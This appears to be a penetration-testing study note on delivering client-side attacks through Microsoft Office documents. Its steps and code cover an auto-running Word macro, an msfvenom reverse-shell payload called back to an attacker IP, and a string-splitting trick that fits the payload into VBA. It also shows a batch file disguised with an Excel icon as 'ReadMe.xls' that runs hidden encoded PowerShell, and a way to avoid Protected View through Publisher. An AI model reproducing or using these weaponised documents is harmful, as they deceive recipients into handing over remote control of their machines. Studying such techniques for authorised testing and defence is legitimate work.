

## Microsoft Office

Microsoft Office can be used to delivery client-side attacks as well, which are hard to distinguish as malicious.

### Microsoft Word Macros

The can include Visual Basic for Applications with full access to ActiveX objects and Windows Script Host.

To create a Macro to auto-run on open:

1. Select 'View' -> 'Macros'

2. Enter a name and select the current document for 'Macros in:'

3. Create procedures for AutoOpen and Document_Open to cause the macro to run when the document is opened for the first time or re-opened while already open.

4. Create a procedure with the exploit code in it and call it from the *Open procedures above.

   ```vbscript
   ' Basic VB script to auto-run a command on open
   Sub AutoOpen()
   MyMacro
   End Sub
   Sub Document_Open()
   MyMacro
   End Sub
   Sub MyMacro()
   CreateObject("Wscript.Shell").Run "cmd"
   End Sub
   ```

5. Be sure to save the containing document as .doc or .docm which support embedded macros, but NOT .docx (this may show as 'Word 97-2003 Document').

#### Reverse Shell

##### Payload

1. Use msfvenom to construct the payload using the hta format, but think of what the target will be connecting back to, if using laterally

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.216.10 LPORT=4444 -f hta-psh -o badfile.hta
   ```

2. Open the output file and copy from `"powershell.exe` to the quote at the end of the 64-bit encoded payload (but not the `,0` at the end)

3. To generate reverse shell code to insert into a macro, we must split up the command into multiple lines and concatenate them because VBA has a 255 character limit for literal strings, but that limit does not apply to strings stored in variables.

   ```python
   # Python script to split up command
   str = "COMMAND GOES HERE"
   n = 50
   for i in range(0, len(str), n):
   	print "Str = Str + " + '"' + str[i:i+n] + '"'
   ```

4. You can run this command and send the output to the clipboard with xclip

   ```bash
   python ./code-split.py | xclip -selection clipboard
   ```

5. This split code can then be inserted into the Macro in Word to avoid the 255 character limit.

   ```vbscript
   Sub mymacro()
       Dim Str as String
       <INSERT STRING BUILDER FROM PYTHON>
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

#### Verification

After transferring the file to Kali, you can verify the payload is intact with olevba

```bash
olevba FILENAME.DOC
```

https://github.com/decalage2/oletools/wiki/Install

### Object Linking and Embedding

Dynamic Data Exchange (DDE) is a popular vector of executing arbitrary code, but this has been patched since December of 2017.  

You can insert an embedded object, like a batch file, into a Word doc and trick the user into clicking on it to execute arbitrary code.

To insert an embedded object:

1. Go to 'Insert' -> Object button 
2. Choose the create from file Tab
3. Select batch script file & select 'Display as Icon'
4. Choose a safe looking icon (like the Excel logo in C:\Program Files\Microsoft Office\root\Office16\Excel.exe) and change the name to something safe sounding (ReadMe.xls)

Batch File Example:

```powershell
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0AC
------SNIPPED------
BlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==
```

### Evading Protected View

Protected view sandboxes the doc, stopping our exploit.

Microsoft Publisher allows embedded objects and code execution but does not enable Protected View for Internet sourced docs.  The down-side is Publisher is less frequently installed than Word, however.

Also, when I tried it, the Icon wouldn't show up, so you'd need to put some kind of image there.